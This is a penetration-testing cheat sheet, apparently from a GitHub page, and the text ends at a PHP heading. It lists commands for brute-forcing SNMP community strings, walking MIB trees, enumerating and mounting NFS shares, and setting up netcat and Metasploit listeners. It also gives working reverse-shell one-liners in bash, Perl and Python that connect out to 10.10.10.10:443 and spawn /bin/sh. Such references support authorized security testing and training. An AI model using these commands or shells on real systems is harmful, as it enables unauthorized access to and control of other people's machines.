 ``` bash
# Brute force community strings
# echo public > community
# echo private >> community
# echo manager >> community
# for ip in $(seq 1 254);do echo 10.11.1.$ip;done > snmp-ips
onesixtyone -c community -i snmp-ips

# Enumerate entire MIB tree
snmpwalk -c public -v1 $ip
# Enumerate specific MIB Value
snmpwalk -c public -v1 $ip $MIB_Value

snmp-check $ip
```
## Port 2049 - NFS

``` bash
# NFS < v4
# Enumerating shares available, and mount points
showmount -e $ip
showmount -a $ip

# Mounting, x = NFS Version
mount -t nfs -o vers=x $ip:<share> <local_dir>

# On target machine
# Find mount points on the target where SUID programs and scripts can be run from 
mount | grep 'nosuid\|noexec'
```

## Shells / Payloads

### Universal Listeners
``` bash
# Netcat
[sudo] rlwrap nc -nvlp <port>

# msf multi/handler
msf(exploit/multi/handler)> set payload path/to/payload
msf(exploit/multi/handler)> set LHOST <ip> # or <interface>
msf(exploit/multi/handler)> set LPORT <port>
```

### Linux
---
#### One-liners
Credit to [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
``` bash
# bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.10.10/443 0>&1"

# Perl
perl -e 'use Socket;$i="10.10.10.10";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP
```